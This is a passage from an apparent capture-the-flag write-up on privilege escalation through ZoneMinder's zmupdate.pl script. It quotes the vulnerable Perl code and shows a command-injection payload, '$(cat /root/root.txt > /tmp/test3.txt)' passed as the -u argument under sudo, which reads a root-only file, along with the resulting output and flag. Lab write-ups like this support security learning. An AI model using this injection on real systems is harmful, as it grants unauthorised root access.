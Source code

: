 Since we can run system commands in Perl with `exec, system, qx`, we'll look for those in the above files. Plus, since we can pass any argument we want to the perl file, we need to look for function that exec system commands with our arguments.

We found the `zmupdae.pl` file, that use `qx` with a command variable that we have impact on it.

```pl
   my $command = 'mysqldump';
      if ($super) {
        $command .= ' --defaults-file=/etc/mysql/debian.cnf';
      } elsif ($dbUser) {
        $command .= ' -u'.$dbUser;
        $command .= ' -p\''.$dbPass.'\'' if $dbPass;
      }
      if ( defined($portOrSocket) ) {
        if ( $portOrSocket =~ /^\// ) {
          $command .= ' -S'.$portOrSocket;
        } else {
          $command .= ' -h'.$host.' -P'.$portOrSocket;
        }
      } else {
        $command .= ' -h'.$host;
      }
      my $backup = '/tmp/zm/'.$Config{ZM_DB_NAME}.'-'.$version.'.dump';
      $command .= ' --add-drop-table --databases '.$Config{ZM_DB_NAME}.' > '.$backup;
      print("Creating backup to $backup. This may take several minutes.\n");
      ($command) = $command =~ /(.*)/; # detaint

[...]

   my $output = qx($command);
```

As we can pass any arguments we want to the file, and only the `-p` argument is sanitize in the code, let's try to inject some command in the other arguments.

Our payload consits of injecting command in the `-u` argument that is later used within the mysqldump command as root. This way, we can copy the content of the flag in `/root/root.txt` into a text file in `/tmp/`.

```sh
(remote) zoneminder@surveillance:/usr/share/zoneminder/www$ sudo zmupdate.pl -u '$(cat /root/root.txt
> /tmp/test3.txt)' -p test -v 2

Initiating database upgrade to version 1.36.32 from version 2

WARNING - You have specified an upgrade from version 2 but the database version found is 1.36.32. Is this correct?
Press enter to continue or ctrl-C to abort :

Do you wish to take a backup of your database prior to upgrading?
This may result in a large file in /tmp/zm if you have a lot of events.
Press 'y' for a backup or 'n' to continue : y
Creating backup to /tmp/zm/zm-2.dump. This may take several minutes.
mysqldump: Got error: 1698: "Access denied for user '-ptest'@'localhost'" when trying to connect
Output:
Command 'mysqldump -u$(cat /root/root.txt > /tmp/test3.txt) -p'test' -hlocalhost --add-drop-table --databases zm > /tmp/zm/zm-2.dump' exited with status: 2
```

Now we can read our flag:

```sh
(remote) zoneminder@surveillance:/usr/share/zoneminder/www$ cat /tmp/test3.txt
f691a1662035a60303060df4b3412305
````